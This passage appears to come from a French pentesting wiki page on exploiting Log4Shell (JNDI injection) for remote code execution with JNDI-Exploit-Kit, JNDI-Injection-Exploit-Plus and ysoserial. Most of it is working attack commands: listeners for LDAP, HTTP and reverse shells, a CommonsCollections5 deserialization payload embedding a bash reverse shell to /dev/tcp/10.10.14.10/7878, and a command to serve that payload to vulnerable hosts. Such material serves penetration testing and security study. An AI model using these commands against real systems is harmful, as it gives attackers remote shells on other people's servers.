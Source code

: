 
**N'oubliez pas de vérifier `java -jar JNDIExploit-1.2-SNAPSHOT.jar -u` pour d'autres options d'exploitation. De plus, si vous en avez besoin, vous pouvez changer le port des serveurs LDAP et HTTP.**

### RCE - JNDI-Exploit-Kit <a href="#rce__jndiexploitkit_33" id="rce__jndiexploitkit_33"></a>

De la même manière que l'exploit précédent, vous pouvez essayer d'utiliser [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) pour exploiter cette vulnérabilité.\
Vous pouvez générer les URL à envoyer à la victime en exécutant :
```bash
# Get reverse shell in port 4444 (only unix)
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -S 172.17.0.1:4444

# Execute command
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -C "touch /tmp/log4shell"
```
_Ce type d'attaque utilisant un objet Java généré sur mesure fonctionnera dans des laboratoires comme la **THM solar room**. Cependant, cela ne fonctionnera généralement pas (car par défaut, Java n'est pas configuré pour charger des bases de code distantes via LDAP) je pense parce que cela n'abuse pas d'une classe de confiance pour exécuter du code arbitraire._

### RCE - JNDI-Injection-Exploit-Plus

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus) est un autre outil pour générer des **liens JNDI fonctionnels** et fournir des services d'arrière-plan en démarrant un serveur RMI, un serveur LDAP et un serveur HTTP.\

### RCE - ysoserial & JNDI-Exploit-Kit

Cette option est vraiment utile pour attaquer **les versions Java configurées pour ne faire confiance qu'à des classes spécifiées et non à tout le monde**. Par conséquent, **ysoserial** sera utilisé pour générer des **sérialisations de classes de confiance** qui peuvent être utilisées comme gadgets pour **exécuter du code arbitraire** (_la classe de confiance abusée par ysoserial doit être utilisée par le programme Java de la victime pour que l'exploit fonctionne_).

En utilisant **ysoserial** ou [**ysoserial-modified**](https://github.com/pimps/ysoserial-modified), vous pouvez créer l'exploit de désérialisation qui sera téléchargé par JNDI :
```bash
# Rev shell via CommonsCollections5
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.10/7878 0>&1' > /tmp/cc5.ser
```
Utilisez [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) pour générer des **liens JNDI** où l'exploit attendra des connexions des machines vulnérables. Vous pouvez servir **différents exploits qui peuvent être générés automatiquement** par le JNDI-Exploit-Kit ou même vos **propres charges utiles de désérialisation** (générées par vous ou ysoserial).
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.10:1389 -P /tmp/cc5.ser
```
![](<../../images/image (1118).png>)
